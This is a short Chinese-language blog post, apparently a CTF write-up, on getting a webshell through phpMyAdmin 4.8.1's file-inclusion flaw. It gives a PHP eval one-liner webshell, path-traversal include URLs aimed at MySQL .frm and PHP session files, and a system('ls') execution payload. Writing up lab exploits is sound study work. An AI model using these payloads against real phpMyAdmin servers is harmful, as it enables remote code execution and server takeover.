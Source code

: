 ```yaml
---
layout: post
title: SQL盲注
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


MOCTF的一道sql盲注题目  
  
phpmyadmin4.8.1后台getshell  

包含文件进行getshell  

姿势:  

### ① ###
建立数据库的，新建表，字段名为一句话木马。 

  
![](https://i.imgur.com/EPlDyPp.png)

会生成对应的数据库文件，相应文件的路径查看  
>     select @@datadir;

![](https://i.imgur.com/Audw2qN.png)  
  
这个样子就会在/var/lib/mysql/hack/hack.frm的文件里包含着一句话木马的字段。  

![](https://i.imgur.com/bEMPj9r.png)  

>     ?target=db_sql.php%253f/../../../../../../var/lib/mysql/data/hack/hack.frm  

![](https://i.imgur.com/UONoCwf.png)  

权限不够，  

![](https://i.imgur.com/HZtEHKa.png)  

不过这个再linux下面倒是很简单，不用考虑权限。
### ② ###

查询语句(一句话木马)，  

执行查询  

>     select '<?php @eval($_GET["code"])?>'


之后会保存在session文件里。  

session文件:  
>     /var/lib/php/sessions/sess_你的SESSION ID  

包含payload:
>     ?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_6ker17rs59cuu39e6rfdpdrcaoto5116&a=system("ls");
  
![](https://i.imgur.com/ksFcQS2.png) 

